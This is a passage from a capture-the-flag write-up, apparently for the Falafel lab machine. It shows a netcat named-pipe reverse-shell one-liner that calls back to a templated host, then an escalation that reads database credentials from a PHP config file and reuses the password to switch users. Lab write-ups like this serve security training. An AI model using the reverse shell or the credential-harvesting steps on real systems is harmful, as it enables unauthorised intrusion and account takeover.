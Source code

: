 

### Webshell --\> Shell

I was able to get an interactive shell on Falafel using the nc / pipe
backdoor,
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f`.
As I like to script these things, I write a python script to generate a
callback, which is included at the end of this post.

## privesc: www-data -\> moshe

There are two users with home directories on the box:



    www-data@falafel:/var/www.md$ ls /home
    moshe  yossi



In the site php files, there's creds for the database.



    www-data@falafel:/var/www.md$ cat connection.php
    <?php
       define('DB_SERVER', 'localhost:3306');
       define('DB_USERNAME', 'moshe');
       define('DB_PASSWORD', 'falafelIsReallyTasty');
       define('DB_DATABASE', 'falafel');
       $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
       // Check connection
       if (mysqli_connect_errno())
       {
          echo "Failed to connect to MySQL: " . mysqli_connect_error();
       }
    ?>



It happens that the password is also moshe's:



    www-data@falafel:/var/www.md$ su moshe
    Password:
    moshe@falafel:/var/www.md$



And user.txt is in moshe's home dir:



    moshe@falafel:~$ wc -c user.txt
    33 user.txt
    moshe@falafel:~$ cat user.txt
    c866575e...



